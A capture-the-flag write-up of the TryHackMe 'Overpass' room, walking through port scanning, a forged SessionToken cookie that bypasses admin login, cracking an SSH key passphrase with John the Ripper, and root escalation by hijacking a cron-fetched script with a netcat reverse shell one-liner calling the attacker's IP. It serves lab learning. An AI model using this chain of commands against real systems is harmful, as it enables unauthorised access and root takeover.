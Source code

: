 ```yaml
---
title: "TryHackMe - Overpass writeup"
date: 2023-05-22 09:31:00 +0300
image: /assets/img/Posts/overpass.png
categories: [Tryhackme, Easy]
tags: [cronjobs, cookies, web, john the ripper, ssh]
---
```


| Room       | [Overpass](https://tryhackme.com/room/overpass)            |
| ---------- | ---------------------------------------------------------- |
| Author     | [tryhackme](https://tryhackme.com/p/tryhackme)             |
| Difficulty | Easy                                                       |

> description: What happens when some broke CompSci students make a password manager? I guess we are about to find out.
{: .prompt-tip }

This write up explains my approach towards solving overpass a tryhackme machine was testing on a bit of OWASP top 10, john and cron jobs.

## Let's begin
First we start with nmap scan using the command `sudo nmap -A -sV -T4 [target IP] -oN nmap.txt`. We find that only two ports are open, `22` and `80`. We know that port `22` runs SSH right? and port `80` is always http.
![image](/assets/img/Posts/overpass/nmap_overpass.webp)

So i went on and opened my browser and visited the website that is running on the machine at port `80` just by pasting the IP in the url tab.
![image](/assets/img/Posts/overpass/welcome_overpass.webp)
Navigating through the web, i found nothing juicy that i could use against the machine. So i went on and tried to scan for any hidden the directories using gobuster and found an /admin directory, wow!!
```bash
gobuster dir -e -u http://[targetIP] -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php -t 50 | tee gobustlog
```
<!--![image](/assets/img/Posts/overpass/gobusteroverpass.webp)-->
we found a login for the admin user but we don’t have any hint on the username or password so far, what now? checking the code? yes, i found a javascript file `login.js`
![image](/assets/img/Posts/overpass/scripts_overpass.webp)

Going through its code, in the very bottom i saw a `login` function which seemed vulnerable and indeed it was. The if condition was checking for the valid credential. If incorrect, it was outputting `Incorrect Credentials`, but if correct, it was setting a Cookie named `SessionToken` and redirecting the user to `/admin`. I wondered if the server was actually validating the cookie and we can utilize that to our benefit by setting any cookie value and hopefully work.
![image](/assets/img/Posts/overpass/vulncode_overpass.webp)

So, there are to ways we can go about this,
First one is, we need to open the developer’s tools by right-clicking on the page and clicking the `inspect` option then we go to `storage` and choose `cookies` and press the `+` at the top right corner and change the name to `SessionToken` and the path to `/`

And the second is opening the console and and setting the cookie

```js
Cookies.set(“SessionToken”, 200)
```
When you are done, you reload the page and boom!!! you have the RSA key for user james as it is mentioned in the text.
![image](/assets/img/Posts/overpass/sshkey.webp)
![image](/assets/img/Posts/overpass/sshkey1.webp)

Copied the key and saved it in my host machine and don’t forget it is encrypted. So we use ss2john to convert it

```bash
ssh2john jamesid > james_id
```

and then crack the password

```bash
john james_id — format=SSH — wordlist=/usr/share/wordlists/rockyou.txt
```
We get the passphrase and to login to the ssh account
![image](/assets/img/Posts/overpass/ssh2john_ovepass.webp)
## user flag
It is is right in the home directory, all you have to do is cat the user.txt file
```bash
cat user.txt
```

## root flag
To get the root flag we should become root user. How? lets see if there is something we can exploit to escalate our privileges

### privilege escalation

I decided to use linpeas (a linux privilege escalation automated script) from this page. i had to get it to the target machine from my host machine. So, i started server in my machine and used wget command in the target machine to download the file from my server

We change its mode to executable 
```bash
chmod +x linpeas.sh
```
and then execute it `./linpeas.sh`

and going through the log or the findings, the cron jobs section caught my eye. it looks like the machine is executing the buildscript.sh from the overpass.thm domain as root…really interesting!!!!!!

So we can change and imitate the directory to the script and change its contents to a reverse shell command and get the shell as root…woow!!.

lets get to it right away
![image](/assets/img/Posts/overpass/crontab_overpass.webp)
From that point, i simulated the `overpass.thm/downloads/src/buildscript.sh` by creating the directory `downloads` and within it, i created `src` and finally created the `buildscript.sh` file and placed a one liner reverse shell netcat command

```bash
mkdir downloads

cd downloads

mkdir src

cd src

nano buildscript.sh

and paste the netcat command in the created file

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <yourIP> 1234 >/tmp/f
```
make it executable
```bash
chmod +x buildscript.sh
```
and started a python server from the base directory where the the downloads dir is located `sudo python3 -m http.server 80`
and in the target machine i added my IP to the /etc/hosts file and with the domain overpass.thm
![image](/assets/img/Posts/overpass/target_hosts_file.webp)
we listen to port specified in the reverse shell command and patiently waited for the connection from the remote machine as root. yes!!!! we got the connection as root!!!

to get the flag
```bash
cat root.txt
```
![image](/assets/img/Posts/overpass/root_overpass.webp)

hope you enjoyed the write up!!. thank you 😁